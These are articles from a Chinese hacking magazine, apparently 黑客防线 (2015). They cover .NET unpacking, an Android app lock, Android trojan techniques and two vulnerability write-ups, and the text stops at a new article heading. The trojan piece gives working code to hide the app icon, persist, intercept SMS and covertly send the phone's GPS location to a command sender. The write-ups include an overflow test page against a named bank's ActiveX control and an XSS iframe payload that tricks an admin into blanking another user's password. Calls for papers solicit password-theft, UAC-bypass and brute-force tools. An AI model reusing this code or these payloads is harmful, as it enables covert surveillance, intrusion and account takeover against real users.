用法非常简单。我们以脱 .Net Reactor 主程序为例子进行演示。虽然我们已经知道 .Net Reactor 采用了整体保护的方案，但我们还是尝试 .NET Reflector 打开，OK，提示错误，如图 4 所示。

图4

接下来运行 .NET Reactor，然后运行 NETUnpack。NETUnpack 的界面一看就知道是进程列表，右边有两个按钮，从上到下分别是 Unpack（也就是脱壳）和 Refresh（也就是刷新功能）。在列表中找到 .NET Reactor 的进程（如果列表里没有，点下面也就是刷新按钮），然后点脱壳。这时会弹出一个保存框选择保存路径，这里推荐保存到一个文件夹当中，因为 Dump 下来的通常不止一个文件。操作完后结果如图5所示。

图5

这次一共 Dump 了 8 个 PE 文件，其中第 5 个已经显露出图标——.NET Reactor 的图标，我们很容易就猜到这才是想要的主程序脱壳文件。把它放回原程序目录，OK，正常运行，说明它确实是主程序脱壳后的文件。把它拖进 .NET Reflector，现在一切正常。.NET Reactor 的主程序都可以用这种方法脱壳，受它保护的 .NET 程序自然不在话下。NETUnpack 是一款通用性很好的、采用内存 Dump 技术的脱壳工具，遇到整体保护的 .NET 程序，不妨用它来试试。

不过，这里我要提出一个看法：运行正常，离逆向完成其实还有一点距离。原因？请看图6。

图6

虽然可以打开了，但各种名称都变成了“乱码”。可能已经有同学猜到，这就是所谓混淆技术中的一种——名称混淆。名称是无关乎运行的，但毕竟逆向分析人员是人，读逆向代码的也是人。软件工程专门就讲了代码可读性的重要性，其中命名规范肯定是浓墨重彩的一章。后面我们将会继续研究如何对抗采用混淆技术保护的 .NET 程序。

（完）

### 打造实用的 Android 程序锁

文/图 马智超（DesertEagle） 欧阳潇琴

手机程序锁是安卓上一款加密应用程序的安全类工具。当你打开某个应用程序的时候，如果已经对其加锁，则会弹出密码框或者图形锁，输入正确后才可以进入。其可以对所有的 APK 程序进行加密，包括打开图片处理软件、音乐软件、短信、微信等等。那么现有的程序锁实用吗？答案是肯定的：经本人测试，不太实用。存在以下几个问题：

- 1) 不够方便的解锁处理；
- 2) 密码存储的加密保护不够好；
- 3) 整个程序锁进程可以被结束掉，保护如同虚设。

所以，让我们来打造一个实用的程序锁。

#### 原理分析

程序锁的应用是一个服务定时监视顶层 Activity，如果 Activity 对应的包名是之前上锁的应用程序的，则弹出一个页面要求输入解锁密码。这里我们改成图形解锁，通过判断解锁密码是否与之前设定的相符，来决定是否正常使用这些软件。

而密码存储可以进行加密处理，所以不做过多分析；进程保护的方法我在 14 年一期里介绍到过，所以这里也不做讲解了，代码嵌套进去即可。而为了更加方便用户的使用，采用九宫格方式解锁，其原理将会在下面的编程分析里详细介绍。

#### 编程分析

##### 1. 九宫格的设计与绘制

图案解锁原理：先绘制九个点，其实就是找九个位置，给九个点绘制图案；考虑图案正常下的状态、用户点击时候的状态；要考虑连线错误时候的状态、图案的限制；在设置密码的时候，画图连线保存成密码。

```java
private void drawLine(Point start, Point end, Canvas canvas, Paint paint) {
    double d = MathUtil.distance(start.x, start.y, end.x, end.y);
    float rx = (float) ((end.x-start.x) * dotRadius / 4 / d);
    float ry = (float) ((end.y-start.y) * dotRadius / 4 / d);
    canvas.drawLine(start.x+rx, start.y+ry, end.x-rx, end.y-ry, paint);
}
```

```java
private void drawArrow(Canvas canvas, Paint paint, Point start, Point end, float arrowHeight, int angle) {
    double d = MathUtil.distance(start.x, start.y, end.x, end.y);
    float sin_B = (float) ((end.x - start.x) / d);
    float cos_B = (float) ((end.y - start.y) / d);
    float tan_A = (float) Math.tan(Math.toRadians(angle));
    float h = (float) (d - arrowHeight - dotRadius * 1.1);
    float l = arrowHeight * tan_A;
    float a = l * sin_B;
    float b = l * cos_B;
    float x0 = h * sin_B;
    float y0 = h * cos_B;
    float x1 = start.x + (h + arrowHeight) * sin_B;
    float y1 = start.y + (h + arrowHeight) * cos_B;
    float x2 = start.x + x0 - b;
    float y2 = start.y + y0 + a;
    float x3 = start.x + x0 + b;
    float y3 = start.y + y0 - a;
    Path path = new Path();
    path.moveTo(x1, y1);
    path.lineTo(x2, y2);
    path.lineTo(x3, y3);
    path.close();
    canvas.drawPath(path, paint);
}

private void initCache() {
    width = this.getWidth();
    height = this.getHeight();
    float x = 0;
    float y = 0;

    if (width > height) {
        x = (width - height) / 2;
        width = height;
    } else {
        y = (height - width) / 2;
        height = width;
    }

    int leftPadding = 15;
    float dotPadding = width / 3 - leftPadding;
    float middleX = width / 2;
    float middleY = height / 2;

    mPoints[0][0] = new Point(x + middleX - dotPadding, y + middleY - dotPadding, 1);
    mPoints[0][1] = new Point(x + middleX, y + middleY - dotPadding, 2);
    mPoints[0][2] = new Point(x + middleX + dotPadding, y + middleY - dotPadding, 3);
    mPoints[1][0] = new Point(x + middleX - dotPadding, y + middleY, 4);
    mPoints[1][1] = new Point(x + middleX, y + middleY, 5);
    mPoints[1][2] = new Point(x + middleX + dotPadding, y + middleY, 6);
    mPoints[2][0] = new Point(x + middleX - dotPadding, y + middleY + dotPadding, 7);
    mPoints[2][1] = new Point(x + middleX, y + middleY + dotPadding, 8);
    mPoints[2][2] = new Point(x + middleX + dotPadding, y + middleY + dotPadding, 9);
}
```

```java
Log.d("jerome", "canvas width:"+width);
dotRadius = width / 10;
isCache = true;

initPaints();
}
```

##### 2. 程序锁后台服务实现

启动定时器，新建任务，先获取当前顶层的应用程序包名，读取数据库，判断是否加锁的包名，是的话则要跳转到我们写好的解锁画面。如果是第一次打开，则跳出设置解锁的图案，这样每个应用程序解锁图案都不一样，可以提高安全性。如果不是加锁的包名，则不做任何操作，允许进入使用。核心代码如下：

```java
private void startTimer() {
    if (timer == null) {
        new Timer().schedule(new TimerTask() {
            @Override
            public void run() {
                Log.i("patternlock", "timerisstarted");
                ComponentName cn = am.getRunningTasks(1).get(0).topActivity;
                String packageName = cn.getPackageName();
                String className=cn.getClassName();
                Log.i("patternlock", packageName);
                if(!lastpack.equals(packageName)&&!packageName.equals("com.example.patternlock")){
                    Check.getIntence().saveIsFinished(context, lastpack, false);
                    Check.getIntence().saveOpened(context, lastpack+"locked", false);
                }

                if(dbs.query(packageName)){
                    if (Check.getIntence().getIsFinished(context,packageName)
                        || Check.getIntence().getLockOpened(context, packageName+"locked")) {
                        //Toast.makeText(context, "foundbutlocked", 3000).show();
                        Log.i("patternlock", "checked");
                        return;
                    } else {
                        //Toast.makeText(context, "foundandshow", 3000).show();
                        Check.getIntence().saveOpened(context, packageName+"locked", true);
                        Intent intent = new Intent();
                        intent.setClassName("com.example.patternlock",
                        "com.example.patternlock.WelActivity");
                        intent.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
                        Bundle bundle=new Bundle();
                        bundle.putString("packName", packageName);
                        intent.putExtras(bundle);
                        startActivity(intent);
                    }
                    lastpack=packageName;
                } else {
                    //Toast.makeText(context, "didnotfind", 3000).show();
                    return;
                }
                // Looper.loop();
            }
        }, 1000, 1000);
    }
}
```

编译以上代码，运行程序打开界面，设置加锁应用如图1所示。

图1

第二次打开加锁应用，会弹出设置好的密码解锁，如图2所示。

图2

经过测试，本程序可以实现程序锁的功能。九宫格解锁、进程保护代码我在 2014 年一期讲过，直接嵌入进去就可以了，可以保证不会在后台被结束掉，但是密码没有加密存储。可定义一个算法，用一些常用的算法接口，这样一个实用的程序锁就完成了。

### Android 零星木马技术浅析

文/图 马智超（DesertEagle）

今天写了一篇 Android 作业，在写的过程中无意间涉及到了木马技术，也想写篇文章介绍所用到的技术。这个程序安装时果然会被 360 识别为威胁软件，360 果真太敏感了。我们猜到杀毒软件会通过特征码、包名、权限、classes.dex 等文件来判别是否为木马和威胁软件，所以想对其免杀。我们可以通过在 classes.dex 里加入一些相关代码和一大堆无用的代码，来混淆杀毒软件，这样在一定程度上就可以达到免杀了。

今天因为一件事被很重要的人误解，我心里也是怪怪的，于是就简单介绍些木马相关的技术。先介绍两个可以应用于木马的技术：图标隐藏、短信截获、进程保护、GPS 定位。结合短信截获和进程保护、GPS 定位功能，我们可以实现这样一个小程序：一个手机上先安装好我们写好的恶意软件，另一个手机发送短信指令到这个手机，就会收到这个手机发来的 GPS 定位信息。那么我们现在开始写代码。

在用到组件时，有时候我们可能暂时性地不使用组件，但又不想把组件 kill 掉，这时我们需要调用 PackageManager 对象的 setComponentEnabledSetting 方法。然后我们需要隐藏应用图标，PackageManager 主要是管理应用程序包，通过它就可以获取应用程序信息，隐藏图标设置下就好：

```java
PackageManager pm=this.getPackageManager();
pm.setComponentEnabledSetting(this.getComponentName(),
    PackageManager.COMPONENT_ENABLED_STATE_DISABLED,
    PackageManager.DONT_KILL_APP);
```

接着来启动后台服务吧，将主界面 Activity 瞬间关掉：

```java
Intent intent=new Intent(this,SmSserver.class);
this.startService(intent);
this.finish();
```

我们需要 RemoteViews，它是用来描述一个跨进程显示的 View。发现在手机休眠一段时间后，后台运行的服务会被强行 kill 掉，网上说有可能是系统回收内存的一种机制。要想避免这种情况，需要通过 startForeground 让服务前台运行。因为前台服务是那些被认为用户知道的，并且在内存低的时候不允许系统杀死的服务。

```java
Notification notification = new Notification(
    R.drawable.icon, "",System.currentTimeMillis());
Intent notificationIntent = new Intent();
notification.contentView=new RemoteViews(this.getPackageName(),
    R.layout.activity_main);
PendingIntent pendingIntent = PendingIntent.getActivity(this, 0,
    notificationIntent, 0);
notification.contentIntent = pendingIntent;
startForeground(100, notification);
```

接着在 SmSserver 里注册 receiver。Android 系统处理隐式 Intent 时，会比较 Intent 和 IntentFilter 的 action 等属性，我们设置好 action，注册广播。

```java
IntentFilter localIntentFilter = new IntentFilter();
localIntentFilter.addAction(SmSserver.SMS_RECEIVED);
localIntentFilter.addAction(SmSserver.GSM_SMS_RECEIVED);
localIntentFilter.setPriority(1000);
localMessageReceiver = new receiver();
this.registerReceiver(localMessageReceiver,
    localIntentFilter,"android.permission.BROADCAST_SMS", null);
localMessageReceiver2 = new receiver();
this.registerReceiver(localMessageReceiver2,
    new IntentFilter(SmSserver.SendState));
```

下面是短信截获这一块。关于这一块的代码网上应该有详细说明吧，而我们这里要截获的是特定命令的短信，那就看一下短信的内容，进行过滤。然后如果是特定命令的短信，就进行 GPS 定位，然后把坐标什么的发过去，核心代码如下。

#### Android 远程监控技术

```java
@Override
public void onReceive(Context context, Intent intent) {
    ct = context;
    String bro = intent.getAction();
    if (bro.equals("android.provider.Telephony.SMS_RECEIVED") || intent.getAction().equals(SmsServer.GSM_SMS_RECEIVED)) {
        Bundle bundle = intent.getExtras(); // 收到的内容非空
        if (bundle != null) {
            getLt();
            Object[] objects = (Object[]) bundle.get("pdus"); // pdus 存放的是短信内容
            SmsMessage[] messages = new SmsMessage[objects.length];
            for (int i = 0; i < messages.length; i++) {
                byte[] pdu = (byte[]) objects[i]; // 一个字符一个字符读取短信
                messages[i] = SmsMessage.createFromPdu(pdu);
            }
            for (final SmsMessage msg : messages) {
                /* 获取短信内容 */
                String content = msg.getMessageBody();
                Date date = new Date(msg.getTimestampMillis());
                SimpleDateFormat sdf = new SimpleDateFormat("yyyy-MM-dd HH:mm:ss");
                String sendTime = sdf.format(date);
                // 判断是否符合“xx.......”格式的短信
                String head = null;
                head = content.substring(0, 2);
                if (head.equals("xx")) {
                    String sender = msg.getOriginatingAddress();
                    sendSMS(sender, gpsstr);
                }
            }
        }
    }
}
```

我们这里自定义了两个函数，功能如下：

```java
/* 把经纬度发送到对方手机上 */
public void sendSMS(String phoneNumber, String message) {
    SmsManager sms = SmsManager.getDefault();
    Intent sentIntent = new Intent("SENT_SMS_ACTION");
    PendingIntent sentPI = PendingIntent.getBroadcast(ct, 0, sentIntent, 0);
    Intent deliverIntent = new Intent("DELIVERED_SMS_ACTION");
    PendingIntent deliverPI = PendingIntent.getBroadcast(ct, 0, deliverIntent, 0);
    sms.sendTextMessage(phoneNumber, null, "the location:" + message, sentPI, deliverPI);
}
```

还有一个获取经纬度函数的代码不贴了，以上就是短信截获、发送短信的核心代码了。  
如果想过滤短信，屏蔽指定号码发来的信息，可以做如下处理。

```java
String sender = msg.getOriginatingAddress();
String number = trimSmsNumber("+86", sender); // 把国家代码去除掉
String s = number.replace(" ", "");
if ("此处填入要屏蔽的号码".equals(s)) {
    sendSMS(sender, gpsstr);
    abortBroadcast();
}
```

下面简写进程保护的代码，实际上就是让 receiver 运行着。我们可以静态注册另一个 receiver 类，在其中加入如下代码，如果发现 service 被关掉了，就马上开启它。

```java
public static boolean isServiceRun(Context mContext, String className) {
    boolean isRun = false;
    ActivityManager activityManager = (ActivityManager) mContext
            .getSystemService(Context.ACTIVITY_SERVICE);
    List<ActivityManager.RunningServiceInfo> serviceList = activityManager
            .getRunningServices(40);
    int size = serviceList.size();
    for (int i = 0; i < size; i++) {
        if (serviceList.get(i).service.getClassName().equals(className) == true) {
            isRun = true;
            break;
        }
    }
    return isRun;
}
boolean isRun = isServiceRun(context, "example.android_task_b.receiver");
Log.i("phone", "server_" + isRun);
if (!isRun) {
    Intent intent = new Intent(context, SmsServer.class);
    intent.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
    context.startService(intent);
}
```

编译以上代码并运行，可看到结果如图 1 所示，就是收到的坐标信息了。


图 1

### 2015 年第 4 期杂志特约选题征稿

黑客防线于 2013 年推出新的约稿机制，每期均会推出编辑部特选的选题，涵盖信息安全领域的各个方面。对这些选题有兴趣的读者与作者，可联系投稿信箱：675122680@qq.com、hadefence@gmail.com，或者 QQ：675122680，确定有意的选题。按照要求如期完成稿件者，稿酬按照最高标准发放！特别优秀的稿酬另议。2015 年第 4 期部分选题如下，完整的选题内容请见每月发送的约稿邮件。

#### 1. Exchange 临时文件还原解密

对于 Exchange 邮件服务器，最新邮件最初会以临时文件形式存储于服务器上，若要实现对最新邮件的实时获取，可针对加密的临时文件进行还原，从而获取邮件。

编写程序，实现对 Exchange 临时文件的还原。

#### 2. Exchange 账户密码获取

对 Exchange 邮件系统所有用户及对应密码的抓取、还原；Exchange 邮箱系统无法直接进行数据操作，所以需要对其数据库进行提取和还原。

编写程序，实现对 Exchange 邮件系统的监控，获取邮件系统所有内建账户与密码。

#### 3. 绕过 Windows UAC 的权限限制

自本期始，黑客防线杂志长期征集有关绕过 Windows UAC 权限限制的文章（已知方法除外）。

- 1）Windows UAC 高权限下，绕过 UAC 提示进入系统的方法；
- 2）Windows UAC 低权限下，进入系统后提高账户权限的方法。

#### 4. 虚拟机穿透

主机安装有虚拟机，现已远程控制虚拟机，寻求如何利用虚拟机的弱点，穿透虚拟机，进而控制本机的方法。

#### 5. 同步下载邮件

假设本机当前系统已掌控，在用户登录 Web 邮箱时，能够自动后台同步下载邮件并保存，包括收件箱、发件箱、已发送邮件、联系人等信息，优先实现 gmail、yahoo 信箱。

### 6. Windows7 屏幕保护密码获取

非重启系统状态下，本机（非远程受控机）屏幕保护已启动，本地获取 Windows7 屏幕保护密码的方法。

#### 7. 暴力破解 3389 远程桌面密码

- 要求：
- 1）针对 Windows 3389 远程桌面实现暴力破解密码；
- 2）读取指定的用户名和密码字典文件；
- 3）采用多线程；
- 4）所有函数都必须判断错误值；
- 5）使用 VC++2008 编译工具实现，控制台程序；
- 6）代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 7）支持 Windows XP/2003/7/2008。

### 8. WEB 服务器批量扫描破解

- 1）针对目标 IP 参数要求
  - 10.10.0.0/16
  - 10.10.3.0/24
  - 10.10.1.0-10.255.255.255
- 2）针对目标 Web 服务器扫描要求  
  可以识别目标 Web 服务器上运行的 Web 服务器程序，比如 APACHE 或者 IIS 等，具体参考如下：
  - Tomcat
  - Weblogic
  - Jboss
  - Apache
  - JOnAS
  - WebSphere
  - Lotus Server
  - IIS(Webdav)
  - Axis2
  - Coldfusion
  - Monkey HTTPD
  - Nginx
- 3）针对目标 Web 服务器后台扫描  
  针对目标进行后台地址搜索。
- 4）针对目标 Web 后台密码破解  
  搜索到 Web 登录后台以后，尝试弱口令破解，可以指定字典。

#### 9. 编写端口扫描器

- 要求：
- 1）扫描出目标机器开放的端口，支持 TCP Connect、SYN、UDP 扫描方式；
- 2）扫描方式采用多线程，并能设置线程数；
- 3）将功能编写成 DLL，导出功能函数；
- 4）代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 5）尽量多做出错异常处理，以防程序意外崩溃；
- 6）使用 VC++2008 编译工具编写；
- 7）支持系统 Windows XP/2003/2008/7。

### 10. Android WIFI Tether 数据转储劫持

说明：  
WIFI Tether（开源项目）可以在 ROOT 过的 Android 设备上共享移动网络（也就是我们常说的 Wi-Fi 热点），请参照 WIFI Tether 实现一个程序，对流经本机的所有网络数据进行分析存储。

- 要求：
- 1）开启 WIFI 热点后，对流经本机的所有网络数据进行存储；
- 2）不同的网络协议存储为不同的文件，比如 HTTP 协议存储为 HTTP.DAT；
- 3）针对 HTTP 下载进行劫持，比如用户下载 www.xx.com/abc.zip，软件能拦截此地址并替换 abc.zip 文件。

### 11. 突破 Windows7 UAC

说明：

编写一个程序，绕过 Windows7 UAC 提示，启动另外一个程序，并使这个程序获取到管理员权限。

- 要求：
- 1）Windows UAC 安全设置为最高级别；
- 2）系统补丁打到最新；
- 3）支持 32 位和 64 位系统。

## 2015 年征稿启示

《黑客防线》作为一本技术月刊，已经 15 年了。这十多年以来基本上形成了一个网络安全技术坎坷发展的主线，陪伴着无数热爱技术、钻研技术、热衷网络安全技术创新的同仁们实现了诸多技术突破。再次感谢所有的读者和作者，希望这份技术杂志可以永远陪你一起走下去。

投稿栏目：

#### 首发漏洞

要求原创必须首发，杜绝一切二手资料。主要内容集中在各种 0Day 公布、讨论，欢迎第一手溢出类文章，特别欢迎主流操作系统和网络设备的底层 0Day，稿费从优，可以洽谈深度合作。有深度合作意向者，直接联系总编辑 binsun20000@hotmail.com。

#### Android 技术研究

黑防重点栏目，对 Android 系统的攻击、破解、控制等技术的研究。研究方向包括 Android 源代码解析、Android 虚拟机，重点欢迎针对 Android 下杀毒软件机制和系统底层机理研究的技术和成果。

#### 本月焦点

针对时下的热点网络安全技术问题展开讨论，或发表自己的技术观点、研究成果，或针对某一技术事件做分析、评测。

#### 漏洞攻防

利用系统漏洞、网络协议漏洞进行的渗透、入侵、反渗透、反入侵，包括比较流行的第三方软件和网络设备 0Day 的触发机理，对于国际国内发布的 POC 进行分析研究，编写并提供优化的 exploit 的思路和过程；同时可针对最新爆发的漏洞进行底层触发、shellcode 分析以及对各种平台的安全机制的研究。

#### 脚本攻防

利用脚本系统漏洞进行的注入、提权、渗透；国内外使用率高的脚本系统的 0Day 以及相关防护代码。重点欢迎利用脚本语言缺陷和数据库漏洞配合的注入以及补丁建议；重点欢迎 PHP、JSP 以及 HTML 边界注入的研究和代码实现。

#### 工具与免杀

巧妙的免杀技术讨论；针对最新 Anti 杀毒软件、HIPS 等安全防护软件技术的讨论。特别欢迎突破安全防护软件主动防御的技术讨论，以及针对主流杀毒软件文件监控和扫描技术的新型思路对抗，并且欢迎在源代码基础上免杀和专杀的技术论证！最新工具，包括安全工具和黑客工具的新技术分析，以及新的使用技巧的实力讲解。

#### 渗透与提权

黑防重点栏目。欢迎非 Windows 系统、非 SQL 数据库以外的主流操作系统的渗透、提权技术讨论，特别欢迎内网渗透、摆渡、提权的技术突破。一切独特的渗透、提权实际例子均在此栏目发表，杜绝任何无亮点技术文章！

#### 溢出研究

对各种系统包括应用软件漏洞的详细分析，以及底层触发、shellcode 编写、漏洞模式等。

#### 外文精粹

选取国外优秀的网络安全技术文章，进行翻译、讨论。

#### 网络安全顾问

我们关注局域网和广域网整体网络防/杀病毒、防渗透体系的建立；ARP 系统的整体防护；较有效的不损失网络资源的防范 DDoS 攻击技术等相关方面的技术文章。

#### 搜索引擎优化

主要针对特定关键词在各搜索引擎的综合排名、针对主流搜索引擎的多关键词排名的优化技术。

#### 密界寻踪

关于算法、完全破解、硬件级加解密的技术讨论和病毒分析、虚拟机设计、外壳开发、调试及逆向分析技术的深入研究。

#### 编程解析

各种安全软件和黑客软件的编程技术探讨；底层驱动、网络协议、进程的加载与控制技术探讨和 virus 高级应用技术编写；以及漏洞利用的关键代码解析和测试。重点欢迎 C/C++/ASM 自主开发独特工具的开源讨论。

### 投稿格式要求：

- 1）技术分析来稿一律使用 Word 编排，将图片插入文章中适当的位置，并明确标注“图 1”“图 2”；
- 2）在稿件末尾请注明您的账户名、银行账号，以及开户地，包括你的真实姓名、准确的邮寄地址和邮编、QQ 或者 MSN、邮箱、常用的笔名等，方便我们发放稿费。
- 3）投稿方式和周期：采用 E-Mail 方式投稿，投稿 mail：hadefence@gmail.com、QQ：675122680。投稿后，稿件录用情况将于 1～3 个工作日内回复，请作者留意查看。每月 10 日前投稿将有机会发表在下月杂志上，10 日后将放到下下月杂志，请作者朋友注意，确认在下一期也没使用者，可以另投他处。限于人力，未采用的恕不退稿，请自留底稿。

**重点提示：** 严禁一稿两投。无论什么原因，如果出现重稿——与别的杂志重复——与别的网站重复，将会扣发稿费，从此不再录用该作者稿件。

- 4）稿费发放周期：稿费当月发放（最迟不超过 2 月），稿费从优。欢迎更多的专业技术人员加入到这个行列。
- 5）根据稿件质量，分为一等、二等、三等稿件，稿费标准如下：

| 稿件等级 | 稿费 |
|---|---|
| 一等稿件 | 900 元/篇 |
| 二等稿件 | 600 元/篇 |
| 三等稿件 | 300 元/篇 |

- 6）稿费发放办法：银行卡发放，支持境内各大银行借记卡，不支持信用卡。
- 7）投稿信箱及编辑联系  
  投稿信箱：675122680@qq.com、hadefence@gmail.com  
  编辑 QQ：675122680

# 黑客防线

在攻与防的对立统一中寻求突破

总第 173 期 2015

网站全新改版，欢迎访问：http://www.hacker.com.cn

- 惊爆渤海银行网上银行客户端远程 0day
- 通达网络办公系统的致命漏洞
- 探索风行电影系统 0Day
- 远程 Hack 猫屎咖啡厅内网
- 漏洞攻防中的 Blitzkrieg
- WAF 另类应用之蜜罐诱捕黑客
- Android 局域网控制 PC


## 《黑客防线》5期文章目录

总第 173 期 2015 年

#### 漏洞攻防

- 惊爆渤海银行网上银行客户端远程 0day（爱无言）……3
- 通过网络办公系统的致命漏洞（爱无言）……6
- 探索风行电影系统 0Day（赵显阳）……9
- 远程 Hack 猫屎咖啡厅内网（light白细胞）……12
- Windows 系统漏洞挖掘技术（侠名）……18
- 漏洞攻防中的 Blitzkrieg（木羊）……19
- 利用 Hashcat 破解 Windows 系统账号密码（Simeon）……21

#### 网络安全顾问

- WAF 另类应用之蜜罐诱捕黑客（xysky）……25

#### Android 远程监控技术

- Android 局域网控制 PC（黄澄）……31
- 2015 年第 5 期杂志特约选题征稿……37
- 2015 年征稿启示……40

### 惊爆渤海银行网上银行客户端远程 0day

文/图 爱无言

有关银行系统的安全漏洞总是能受到高度关注。曾经我曝光的一些银行软件的安全漏洞，在一段时间内也引起了银行系统本身的重视。国内银行系统在吃了亏以后也学会了虚心。说实话，银行这一敏感领域对信息安全的意识应当远远高于一般社会群体，线上的网上银行、线下的 ATM 以及用户银行卡、口令卡的安全到底怎么样，往往决定着老百姓们口袋里那点钱的生死存亡。在一次安全测评的过程中，无意接触到了渤海银行的网上银行系统，没有想到那些“老旧”的安全漏洞竟然再一次出现在了我们面前，诧异之余还有更加令人吃惊的安全问题。让我们现在就来看一看这脆弱的网上银行系统吧。

与所有网上银行系统一样，渤海银行的网上银行同样需要安装网银客户端软件。这一类的软件往往包含密码输入控件、签名控件、安全控件等等内容，其目的就是为了保护用户的信息安全。可结果呢？我们这里下载的渤海银行网上银行客户端软件如图 1 所示。


图 1

“渤海银行网络银行客户端安全控件 1.0 版”是一个压缩包格式的安装程序，其中包含一个名为“BHBClientSecv1_0.exe”的二进制程序。该程序其实只做了一件事情，就是将“SSClient.ocx”这个文件释放到系统 Windows 目录下，同时注册该文件。

利用 ComRaider 打开“SSClient.ocx”，我们会发现该文件只提供了两个外部接口，如图 2 所示。


图 2

就是这样两个外部接口，漏洞却发生了！请大家注意这里的“TestEnc”接口，该接口的原型为：

```vb
Function TestEnc (
    ByVal Deskey As String,
    ByVal PIN As String,
    ByVal PubKey As String
) As String
```

三个参数都为字符串类型，面对这种参数我们有了邪恶的想法：溢出吧兄弟！首先，编写一个测试网页文件，代码如下：

```html
<object classid="clsid:7273643A-CB68-4131-ABF5-75A555803515" id=evil></object>
<script>
var a="a"
var i=1
while(i<5000)
{
  a=a+"a"
  i=i+1
}
evil.TestEnc(a,a,a)
</script>
```

测试代码内容很简单，就是将长度为 5000 的字符串 a 赋值给“TestEnc”的三个参数，试图探测一下“TestEnc”这个接口存不存在溢出的可能。

保存上述代码到 html 文件当中，将该测试网页文件放置在本地搭建的 Web 服务目录下，用 IE 访问该测试网页网址，我们发现令人惊喜的事情发生了，如图 3 所示。


图 3

Ollydbg 友好地提示我们“正在执行[61616161]”错误，这经典的缓冲区溢出画面好久没有看到了。漏洞发现了，现在我们需要定性到底是哪个参数造成了溢出，因此此刻“TestEnc”的三个参数都被我们赋值为 5000 个字母 a。要想测试出问题出在第几个参数上，我们只需要修改一下代码，让三个参数赋值为不同的字符就可以。代码可以写成这个样子：

```html
<object classid="clsid:7273643A-CB68-4131-ABF5-75A555803515" id=evil></object>
<script>
var a="a"
var b="b"
var c="c"
var i=1
while(i<5000)
{
  a=a+"a"
  b=b+"b"
  c=c+"c"
  i=i+1
}
evil.TestEnc(a,b,c)
</script>
```

重新测试后发现，问题出在第一个参数上。现在，我们就需要定位到底多长的字符串最终能够覆盖到溢出点呢？最稳妥的办法就是二分法测试，每一次修改上一次一半长度的数据内容，然后测试，直到触发溢出，就可以测试出最终需要的触发溢出点的字符长度。经过不停地修改和测试，我们发现当“TestEnc”的第一个参数长度达到 77 时，溢出就开始发生了，覆盖返回地址的长度是 77 到 80 这四个字符。这时我们最终的攻击代码就可以出锅了，这里就不再给出完整的攻击代码了。

同样的测试过程大家可以用来测试一下“SSClient.ocx”的另外一个接口 BHBEncodeData，相信会有新的惊喜发生。

在我们测试完渤海银行网上银行客户端的安全性后，我随手访问了一下渤海银行的官方网站。这个用 JSP 开发的网站系统似乎存在着巨大的安全隐患，如果你不信，请看图 4 所示。


图 4

面对这样的画面，我想花费一些时间一定会有不菲的收获。有兴趣的读者可以自行测试一下，但是请注意分寸。同时，希望渤海银行能够及时修补安全漏洞，查漏补缺，为广大用户提供更好、更安全的资金服务。

### 通达网络办公系统的致命漏洞

文/图 爱无言

提起“通达网络办公系统”可能很多人都不熟悉，但是要是说到“Office Anywhere”，我想大家就有所耳闻了。其实“通达网络办公系统”的英文名称就是“Office Anywhere”。这是一个在国内知名度很高的网络办公系统，市面上只要提到网络办公系统一般都会推荐使用通达的产品。从起初的一个单纯的 Web 系统开始，通达办公系统现在已经集成桌面应用程序、手机客户端于一身。丰富的功能为用户提供了优秀的服务，加上不断变化的 Web 前端界面效果，让“通达网络办公系统”在业界获得了良好的口碑。这样一套完美的网络办公系统在安全上到底做得如何？受人委托简单地对该系统做了一个测试，竟然发现诸多安全隐患，这里将其中一个安全漏洞曝光出来，希望能够引起通达公司的高度重视。

作为网络办公系统，用户是系统的关键服务对象。不同的用户按照用户身份等级划分，例如职员就不能够看到部门经理的办公内容。要想看，你要么知道部门经理的密码，要么就可以借助本文漏洞来试一试。

我们这里测试的对象是“Office Anywhere 2013 增强版”。初始安装好后我们使用管理权限建立了两个不同权限的用户，职员名为“test”，部门经理则为“boss”，同时我们为“boss”设置了一个非常复杂的密码，假设“test”根本不知道也猜解不出这个密码。利用“test”登录系统，如图 1 所示。


图 1

漂亮而清爽的界面让我们感到很舒服，“Office Anywhere 2013 增强版”为用户提供了很多实用的办公功能。这里我们对“电子邮件”这个功能十分感兴趣，试图新建一封邮件，如图 2 所示。


图 2

看到图 2 我标出来的地方了吗？“源码”这两个字让我一下子明白机会来了！放上那些经典的 XSS 语句吧，什么“`<script>alert(1)</script>`”等等，然后把这封邮件发给自己，看看会有什么效果？如图 3 所示。


图 3

这醒目的对话框告诉我们漏洞出现了！“Office Anywhere 2013 增强版”对用户输入的脚本代码没有进行任何安全过滤，一个典型的 XSS 漏洞被我们发现了。

现在我们将为系统管理员发送一封带有恶意脚本的电子邮件，为什么这么做？因为系统管理员才具有修改用户密码的权限啊！系统为管理员提供了一个非常人性化的功能，它允许管理员恢复任意用户的登录密码为空密码。为此，我们将通过上面这个漏洞，请管理员帮助我们重置“boss”用户的登录密码！那么，我们这封电子邮件应该怎么写呢？很简单，只需要插入一个框架就可以。

```html
<iframe height="0" src="/general/system/user/no_pass.php?USER_ID=boss," width="0"></iframe>
```

将前面这段代码放到图 2 的邮件内容那里，记住要使用“源码”编辑方式，然后选择系统管理员用户，一般是“admin”，发送该邮件给他。剩下的就是耐心等待了。当然你也可以修改前面的代码，一旦管理员访问了你的邮件就给你一个提示，这样你就可以第一时间去登录部门经理“boss”同志的办公系统了，因为他的密码现在是空密码啦！

其实，这个 XSS 漏洞出现的位置不单单是在“电子邮件”功能这里，在很多地方都存在，例如系统提供的“讨论区”，这是一个类似论坛或者留言板的地方，如图 4 所示。


图 4

在“讨论区”的回复功能中，我们同样发现了“源码”这个标志性的按钮，这里就不截图了。这意味着，利用给管理员留言或者回复留言的方式，同样可以让管理员触发 XSS 漏洞，而且通达系统还支持对被回复人员的提醒。这样一来，简直是在帮我们催促管理员赶紧触发漏洞吧！

一个看似毫不起眼的 XSS 漏洞，对于办公系统这样用户信息敏感型的 Web 应用程序来说是致命的。因为一个内鬼利用这样的漏洞就可以轻松获取到整个办公系统内部所有用户的数据信息，这种商业机密的泄漏对公司或者单位来说将会造成巨大的经济利益或者其他方面的损失。希望通达公司能够重新审视自己程序的安全性，及时修补该漏洞，提升自己的安全等级，为用户提供更加优秀的办公服务。

最后，本文旨在讨论安全技术，请不要使用本文技术进行任何违法行为，作者和杂志概不负责。

## 探索风行电影系统 0Day

文/图 赵显阳

